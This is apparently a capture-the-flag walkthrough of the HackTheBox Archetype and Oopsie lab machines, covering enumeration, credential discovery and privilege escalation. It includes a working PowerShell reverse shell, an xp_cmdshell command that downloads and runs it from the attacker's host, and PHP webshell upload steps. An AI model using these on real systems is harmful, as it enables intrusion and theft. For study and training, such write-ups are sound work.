# Starting Point on HackTheBox (2020)

<style>
* {
  box-sizing: border-box;
}

.zoom:hover{
      cursor: -moz-zoom-in; 
    cursor: -webkit-zoom-in; 
    cursor: zoom-in;
}

.zoom:link {
 

  transition: transform .2s;
  
  margin: 0 auto;
}

.zoom:active {
      cursor: -moz-zoom-in; 
    cursor: -webkit-zoom-in; 
    cursor: zoom-in;
  -ms-transform: scale(2); /* IE 9 */
  -webkit-transform: scale(2); /* Safari 3-8 */
  transform: scale(2); 
   position: absolute;
    z-index: 9999;
  
}
</style>

## INTRODUCTION
([pdf](sp2020.pdf))


 This path is composed of 6 boxes in a way that later boxes use information (like credentials) gathered from the previous ones.
<br>
<br>


## &#9656; ARCHTYPE 

### &#9702; About

This is a Windows box where you can learn how enumeration can lead to RCE via SQL server queries.
<ul>
<li>Machine : <b>Archetype</b> </li>
<li>Ip: <b>10.10.10.27</b></li>
</ul>

<br>

### &#9702;  Enumeration

We use nmap (a free and open source utility for network discovery and security auditing) to:

·         -sV: Probe open ports to determine service/version info

·         -sC: equivalent to --script=default

 

***nmap -sC -sV 10.10.10.27***


``` shell 
sudo nmap -sC -sV 10.10.10.27
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 08:58 EDT
Nmap scan report for 10.10.10.27
Host is up (0.046s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s       Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
....
Host script results:
|_clock-skew: mean: 1h38m45s, deviation: 3h07m52s, median: 14m44s
| ms-sql-info: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
```
Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.


It is worth checking to see if anonymous access has been permitted, as
file shares often store configuration files containing passwords or
other sensitive information. We can use smbclient to list available
shares.

``` shell 
smbclient -N -L \\10.10.10.27

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

SMB1 disabled -- no workgroup available
```
It seems there is a share called **backups**. Let's attempt to access it
and see what's inside.

``` shell 
smbclient -N  \\10.10.10.27\backups

Try "help" to get a list of possible commands.
smb: \> dir
  ..                                DR        0  Mon Jan 20 07:20:57 2020
  ..                                DR        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

smb: \>
```

There is a <b>dtsConfig</b> file, which is a config file used with SSIS. Let’s
see the code

```shell 
smb: \> get prod.dtsConfig
  
  getting file \prod.dtsConfig of size 609 as prod.dtsConfig (3.5 KiloBytes/sec) (average 3.5 KiloBytes/sec)
  
smb: \>
```
Checking the file we see:

- The password: **M3g4c0rp123**

- The user ID : **ARCHETYPE\sql_svc**
```shell 
more prod.dtsConfig

<DTSConfiguration>

    <DTSConfigurationHeading>

      …..

      <ConfiguredValue>Data Source=.;Password=M3g4c0rp123; User ID=ARCHETYPE\sql_svc; <- username and password

        .….

        …..

     </ConfiguredValue>

    ……

</DTSConfiguration>
```
### &#9702; Foothold

Let's try connecting to the SQL Server using “mssqlclient.py” (from Impacket) using the credentials found in “**prod.dtsConfig**” for the local Windows user **ARCHETYPE\sql_svc** (pwd:**M3g4c0rp123** ):


``` shell
python3 /usr/share/doc/python3-impacket/examples/**mssqlclient.py** ARCHETYPE/sql\_svc@10.10.10.27 -windows-auth

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands

SQL>
```
We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. Luckily we do have sysadmin privileges and we can now enable xp_cmdshell and gain RCE (remote code execution) on the host. Let's attempt this, by inputting the commands below:

1.    EXEC sp_configure 'Show Advanced Options', 1;

2.    reconfigure;

3.    EXEC sp_configure 'xp_cmdshell', 1

4.    reconfigure;

5.    xp_cmdshell "whoami"


``` script
SQL>EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
....
SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                       
-------------------------------------------------------------------------------- 
archetype\sql_svc
                                                              
NULL

```

The whoami command output reveals that the SQL Server is also running in the context of the user **ARCHETYPE\sql_svc**. However, this account doesn't seem to have administrative privileges on the host. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as **shell.ps1**.

```script
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.16",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()

```
Next, let’s start up a mini webserver in python in order to host the file. We can use the following Python command:

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo python3 –m http.server 80
[sudo] password for kali:
Serving  HTTP  on  0.0.0.0  port  80  (http://0.0.0.0:80)  …
```


Here we can use:

·         netcat (a feature-packed networking utility) to reads and writes data across the network.
·         ufw (Uncomplicated FireWall) to allow incoming connections from a specific IP. 

 After standing up a netcat listener on port 443, we can use ufw to allow the callbacks on port 80 and 443 to our machine:

·         nc -lvnp 443
·         ufw allow from 10.10.10.27 proto tcp to any port 80,443

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo  nc –lvpn 4433
listening  on  [any]  443  …

sudo  ufw  allow  from  10.10.10.27 proto  tcp  to  any  port  80,443
```


We can now issue the command to download and execute the reverse shell 
through xp\_cmdshell . (10.10.14.16 attacking machine)
``` code 
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.16/shell.ps1\");"
```
<!-- 
<div style="width:100%; background-color:#252b34"></div>
-->

We can see from our mini webserver that a file has been downloaded

<div style="width:100%; background-color:#252b34"></div>

A shell  is received as **sql_svc**, and we can get the user.txt on
their desktop.

<div style="width:100%; background-color:#252b34"></div>

Using Tmux, that’s all in one window:

<div style="width:100%; background-color:#252b34"></div>

### &#9702;  Privilege Escalation

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the type(link)command to access the PowerShell history file (ConsoleHost_history.txt) to see the administrator’s credentials
``` code   
  type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell \PSReadline\ConsoleHost_history.txt 
```
From the ConsoleHost_history.txt we can see the administrator password:
``` code
  net.exe use T: \\Archetype\backups /user:**administrator** **MEGACORP_4dm1n!!**  
  exit  
```
Below an image of the tree commands:
<div style="width:100%; background-color:#252b34;">a</div>

This also reveals that the backups drive has been mapped using the local
administrator credentials. We can use Impacket's psexec.py to gain a
privileged shell .
``` code 
 python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27 
```
<!-- <div style="width:100%; background-color:#252b34"></div> -->
<br>
Below we can see that we gained Administrative privileges:
<br>
<div style="width:100%; background-color:#252b34;text-align: left;"></div>
 We can now search for <b>"root.txt"</b>.
<!-- <div style="width:100%; background-color:#252b34"></div>-->
<br>
<br>

## &#9656;  OOPSIE 
<br>

### &#9702;  About

This box features debugging session and MySQL enumeration
<ul>
<li>Machine : <b>Oopsie</b> </li>
<li>Ip: <b>10.10.10.28</b></li>
</ul>
<br>


### &#9702;  Enumeration

***nmap -sC -sV 10.10.10.28***

Running a simple Nmap scan reveals ***two*** open ports running, for SSH
and Apache respectively.
``` shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 03:34 EDT
Nmap scan report for 10.10.10.28
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.92 seconds
```

Nmap reveals reveals that SSH and Apache are available on their default
ports. Let's check out the website.

<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div> 


It seems to be a website for the electric vehicle manufacturer MegaCorp.
Scrolling down, we note that a reference is made to logging in.

<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"></div>  


We cannot see anything else of interest, so let's send the request to a web proxy such as Burp, so we can examine the website in more detail. 

We point the browser to the Burp proxy at **127.0.0.1:8080** 

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Then we refresh the page, and forward the request.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

On the **Target tab**, we notice that Burp has passively spidered the website while processing the request.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


We can see the url “**/cdn-cgi/login**”.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We could have also simply used our browser; in Firefox we could have
inspected the web page, and we could have found the same url under the
**Network Monitor** tab:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


We could have just used “**Edit and Resend**”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Just modify the URL into “**http://10.10.10.28/cdn-cgi/login/**”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

And click “Send”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

And the link to the login page appear in our list:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Now just open it in a “New Tab”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We confirm that this is a login page. Let's try to reuse the password
**MEGACORP\_4dm1n!!** from the previously compromised machine, with
common usernames such as **administrator** or **admin** .
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
This is successful, and we gain access to the web portal, which contains
additional functionality.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

However, it seems the developer has implemented tiers of administration,
and the Uploads page is further restricted to the **super admin** user.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let's examine the URL:
“**http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=**”

We can see that for **id=1,** we will have user **admin**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

If we pick **Id=4**, the user is now **john**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s examine the page in ***Burp***. We refresh on the Accounts page,
which displays the user id for our current user, and intercept the
request. We notice what seems to be a custom cookie implementation,
comprising of the **user** value and **role**. We also notice the **id**
parameter, which for our current admin user is 1.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
This shows that it might be possible to brute force the **id** values,
and display the **user** value for another user, such as the super admin
account.

We can do this using by trying a series of id values, we will use Burp's
**Intruder module**.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We press Clear to remove the pre-populated payload positions
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We now select the Id value (1),
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We click Add.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Next, click on the Payloads tab.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We can generate a sequential list of 1-100 using a simple shell  script
``` script
  for i in \`seq 1 100\`; do echo \$i; done
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Paste the output into the Payloads box.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Next we move to “Options” tab
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We ensure that Follow Redirections is set to "**Always**", and select
the option to "**Process cookies in redirections**".
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s click on the Target tab, and then click “**Start attack**”.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We sort responses by Length, and view the results.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

A few of a responses have a different length, and we proceed to examine
them. The super admin account is visible, and ***corresponding user
value is identified***(86575).
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s try to access the Uploads page again
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


Let’s substitute the user value (34322) with the super admins value
(86575).
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


Let’s click on “Forward” and see what the response into the browser
(let’s disable the proxy first)
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


Inspecting cookies, let’s see again the upload page:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


We can see that the user’s Value is “**34322**” with role “admin”
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s try changing the users’ value into “**86575**” an see what happens
the we refresh the page
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


We do now have access as super admin:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

### &#9702; Foothold
===============

Let’s check if the developer forgot to implement user input validation,
and so we should test if we can upload other files, such as a PHP
webshell .Let’s locate the “php-reverse-shell .php” file.

``` shell
kali@kali: ~/HTB/StartingPoint/Oopsie$  locate  php-reverse-shell.php
/usr/share/laudandum/php/php-reverse-shell.php
/usr/share/laudandum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
kali@kali: ~/HTB/StartingPoint/Oopsie$ 
```


Let’s save this file as “**check.php**”
``` shell
kali@kali: ~/HTB/StartingPoint/Oopsie$  cp /usr/share/webshells/php/php-reverse-shell.php  check.php
kali@kali: ~/HTB/StartingPoint/Oopsie$  ls
check.php
```


Let’s now customize the file “check.php” file with our IP address and
the port values
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


Page reports that the upload of the “**check.php**” file was successful
<div style="width:100%; background-color:white;text-align: center;;border: 1px solid black;" class="zoom"></div> 


We don't know where the reverse shell  was uploaded to. Let's enumerate
the web server for common directories using a the dirsearch tool.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s run the script for “php” files. 
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 
<br>
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>
<br>
From the output we can see that tool identified the uploads folder.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

We can set up our listener
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Then we can trigger a reverse shell  using the curl command.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Below a a shell  as **www-data** and proceed to upgrade it.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 

Let’s upgrade the reverse shell  as follow:
``` code
SHELL=/bin/bash script -q /dev/null
<Ctrl-Z>
stty  raw -echo
fg
reset
xterm
```

And we get the fully interactive shell:
```shell
www-data@oopsie:/$

```

### &#9702; Lateral Movement
==================

The website records are probably retrieved from a database, so it's a
good idea to check for database connection information.

Let’s check for any db file:
```shell
www-data@oopsie:/$  locate db
```
<!-- <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div>  -->

And we eventually find the “**/var/www/html/cdn-cgi/login/db.php**” file.
```shell
/var/lib/lxcf/….
/var/lib/lxcf/….
/var/lib/lxcf/….
/var/lib/man-db/….
/var/lib/mlocate/….
/var/lib/mlocate/….
/var/www/html/cdn-cgi/login/db.php
```
 <!-- <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> -->


Let check the **db.php** file
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"></div> 


From the php.net manual page
“https://www.php.net/manual/en/function.mysqli-connect.php”, we see how
**mysqli_connect** function works:
```code
mysqli_connect(DB_HOST, DB_USERNAME, DB_PASSWORD,DB_NAME);" 
```

So let’s use the page credentials in db.php : 

•	DB_USERNAME: **robert**

•	DB_PASSWORD:**M3g4C0rpUs3r!**

We can now use the “su (Switch User)” command to switch user and move laterally.
```shell
www-data@oopsie:/$  su robert
Password:
robert@oopsie:/$  
```
